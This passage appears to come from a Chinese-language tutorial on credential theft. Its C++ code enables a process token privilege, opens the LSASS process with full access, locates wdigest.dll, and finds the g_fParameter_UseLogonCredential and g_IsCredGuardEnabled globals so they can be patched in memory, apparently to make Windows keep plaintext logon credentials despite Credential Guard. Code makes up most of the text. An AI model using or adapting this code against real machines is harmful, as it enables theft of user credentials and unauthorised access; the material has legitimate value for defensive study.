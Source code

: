```c++
	// Set escalation information
	tokenPrivileges.PrivilegeCount = 1;
	tokenPrivileges.Privileges[0].Luid = luidValue;
	tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

	// Elevate Process Token Access
	if (!AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, sizeof(tokenPrivileges), NULL, NULL))
	{
		wprintf(L"[-] AdjustTokenPrivileges Error [%u].\n", GetLastError());
		return status;
	}
	else
	{
		status = TRUE;
	}
	return status;
}
```

提升令牌特权后，进入 `PatchMemory()` 函数开始修补内存。

### Get Base Address Of Wdigest.dll Module

在开始修补此之前，我们需要枚举 LSASS 加载的模块，并确定 wdigest.dll 模块基地址以及两个全局变量的地址。为此我编写了 `AcquireLSA()` 函数，如下所示。

```c++
BOOL AcquireLSA()
{
	BOOL status = FALSE;
	DWORD pid;

	if (pid = GetProcessIdByName(L"lsass.exe"))
		cLsass.hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
	else
		wprintf(L"[-] Lsass Process Not Found.");

	cLsass.osContext.MajorVersion = NT_MAJOR_VERSION;
	cLsass.osContext.MinorVersion = NT_MINOR_VERSION;
	cLsass.osContext.BuildNumber = NT_BUILD_NUMBER & 0x00007fff;

	if (GetVeryBasicModuleInformations(cLsass.hProcess) && LsassPackage.Module.isPresent)
	{
		wprintf(L"[*] Base address of wdigest.dll: 0x%016llx\n", LsassPackage.Module.Informations.DllBase.address);
		if (LsaSearchGeneric(&cLsass, &LsassPackage.Module, g_References, ARRAYSIZE(g_References), (PVOID*)&g_fParameter_UseLogonCredential, (PVOID*)&g_IsCredGuardEnabled)
			&& LsassPackage.Module.isInit)
		{
			wprintf(L"[*] Address of g_fParameter_UseLogonCredential: 0x%016llx\n", g_fParameter_UseLogonCredential);
			wprintf(L"[*] Address of g_IsCredGuardEnabled: 0x%016llx\n", g_IsCredGuardEnabled);
			status = TRUE;
		}
	}
	return status;
}
```
